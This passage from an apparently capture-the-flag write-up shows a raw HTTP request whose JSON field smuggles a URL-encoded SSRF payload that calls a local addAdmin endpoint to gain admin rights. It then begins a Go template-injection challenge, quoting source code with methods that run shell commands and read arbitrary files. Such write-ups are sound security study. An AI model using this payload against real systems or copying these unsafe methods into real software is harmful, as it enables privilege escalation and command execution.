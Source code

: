 ```
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:1337
Referer: http://127.0.0.1:1337/product
Cookie: session=.eJwdyt0KgjAYgOF72XmC9gN2FsvyW7KF2rSdRC6pNbcFCuGie086fZ_3gwanW4vWqB3Jo9lLxRSBk4eQKujB5kuJYQX6VXNM4mCaQhnxsTG7QRQTGNKLimtQbyVN3P-b5V7UoDJMujbdKPZMIlbePS3Pc-ppHDCWj55HiejAsMPRDVUGpdvOWI5vKbnaRaHtpU89iRz6_gAnPTYp.ZTqJxQ.DotQHfwlzUW4VNS4NVYxcW7Xdbk
Connection: close

{"name":"Test","price":"10","description":"test","manual":"http://%31%32%37%2e%30%2e%30%2e%31:1337/api%2faddAdmin?username=bleed"}
```
After logging out and logging back in, we are given the flag on the home page.

## Web - Ghostly Templates
This challenge really reminded me of an earlier challenge that I solved on the HTB platform, namely `RenderQuest`. This challenge follows a similar approach with some few alteration.

### Browsing the Website 
Taking a look at the functionality of the website, it allows us to use their golang templates on our own webpages. Gus Ralph has made an excellent [blog post](https://www.onsecurity.io/blog/go-ssti-method-research/) about SSTIs in Go's builtin html/template module. This discusses the vulnerabilities that can arise when using said templates.

The essence of the vulnerability lies in the fact that we can call any method through template injection from the source code, as long as the method is an attribute of the value passed to the template. Lets give the source code as an example here:
```go
type RequestData struct {
	ClientIP     string
	ClientUA     string
	ServerInfo   MachineInfo
	ClientIpInfo LocationInfo `json:"location"`
}

...

func GetServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
	}
	return string(out)
}

...

func (p RequestData) OutFileContents(filePath string) string {
	data, err := os.ReadFile(filePath)
	if err != nil {
		return err.Error()
	}
	return string(data)
}

...
```